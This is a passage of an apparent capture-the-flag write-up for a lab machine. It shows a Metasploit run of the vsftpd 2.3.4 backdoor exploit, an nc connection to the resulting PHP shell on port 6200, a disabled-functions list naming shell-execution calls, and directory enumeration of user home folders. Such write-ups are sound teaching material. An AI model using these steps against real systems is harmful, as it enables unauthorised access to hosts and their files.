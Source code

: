 On first sight the ftp version seems very interesting because there are public exploits and a metasploit module for vsftpd 2.3.4. The exploit activates a backdoor that was found in the program. We run metasploit against the target which seems to fail:

```
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.131:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.131:21 - USER: 331 Please specify the password.
[+] 10.10.10.131:21 - Backdoor service has been spawned, handling...
[-] 10.10.10.131:21 - The service on port 6200 does not appear to be a shell
```

Metasploit did trigger the backdoor and open the port, however it could not connect to the shell that should spawn there. We double check by using nc:

```
➜  ~ nc 10.10.10.131 6200
Psy Shell v0.9.9 (PHP 7.2.10 — cli) by Justin Hileman
ls
Variables: $tokyo
```

We find that psysh is a php shell which means we have to write php code to execute commands that are not in the default list ( which we can get by issuing the help command). Running `phpinfo();` we see that a lot of functions that would give a shell are disabled:

```
disable_functions => exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source => exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source
```

We can however use `scandir("<dir>")`, `file_get_contents("<file>")` and `file_put_contents(<file>)` to enumerate the box a bit:

```
scandir("/home");
=> [
     ".",
     "..",
     "berlin",
     "dali",
     "nairobi",
     "oslo",
     "professor",
   ]
```

```
scandir("/home/berlin");
=> [
     ".",
     "..",
     ".ash_history",
     ".ssh",
     "downloads",
     "node_modules",
     "server.js",
     "user.txt",
   ]
```
